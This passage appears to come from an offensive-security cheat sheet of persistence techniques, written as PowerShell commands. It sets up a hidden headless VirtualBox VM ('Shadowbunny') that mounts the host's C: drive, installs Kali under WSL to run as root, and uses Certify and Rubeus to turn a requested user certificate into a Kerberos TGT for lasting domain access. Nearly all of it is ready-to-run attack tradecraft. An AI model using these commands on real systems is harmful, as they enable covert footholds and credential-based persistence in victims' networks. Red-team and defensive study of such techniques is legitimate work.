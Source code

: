 ```ps1

# Add a network card in NAT mode
.\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# Mount the VHD file
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# Start the VM
.\VBoxManage.exe startvm $vmname –type headless 


# optional - adding a shared folder
# require: VirtualBox Guest Additions
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# then mount the folder in the VM
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```

### Windows Subsystem for Linux

```ps1
# List and install online packages
wsl --list --online
wsl --install -d kali-linux

# Use a local package
wsl --set-default-version 2
curl.exe --insecure -L -o debian.appx https://aka.ms/wsl-debian-gnulinux
Add-AppxPackage .\debian.appx

# Run the machine as root
wsl kali-linux --user root
```

## Domain

### User Certificate

```ps1
# Request a certificate for the User template
.\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User

# Convert the certificate for Rubeus
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request a TGT using the certificate
.\Rubeus.exe asktgt /user:username /certificate:C:\Temp\cert.pfx /password:Passw0rd123!
```
